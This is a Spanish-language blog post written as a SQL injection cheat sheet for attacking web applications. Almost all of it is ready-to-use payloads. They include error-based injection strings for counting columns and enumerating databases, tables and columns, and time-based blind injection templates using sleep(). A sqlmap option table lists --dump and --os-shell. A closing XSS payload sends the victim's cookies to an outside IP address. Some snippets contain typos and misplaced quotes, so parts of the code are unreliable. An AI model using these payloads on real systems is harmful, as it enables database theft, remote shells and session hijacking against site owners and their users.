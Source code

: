 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
current_user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blind SQL

### Base de Datos

```
' or IF(SUBSTR(database(),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<position>,<chars>.encode("utf-8").hex())
```

### Tablas

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<database>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Columnas

```
' or IF(SUBSTR((SELECT column_name FROM information_schema.columns WHERE table_name='%s' AND table_schema='%s' LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<table>,<databse>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

### Registros

```
' or IF(SUBSTR((SELECT %s FROM %s.%s LIMIT %d,1),%d,1)=BINARY(0x%s),sleep(3),1)-- -" % (<column>,<databse>,<table>,<fila>,<position>,<chars>.encode("utf-8").hex())
```

----

#### Todos los usuarios de MySQL

```
SELECT user FROM mysql.user;
```

## SqlMap

| argumento      | descripción                                   |
|----------------|-----------------------------------------------|
| --url          | url                                           |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel                                         |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos                             |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos                     |
| --tables       | mostrar las tablas de la DDBB seleccionada    |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla               |
| --os-shell     | obtenre shell                                 |


## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```
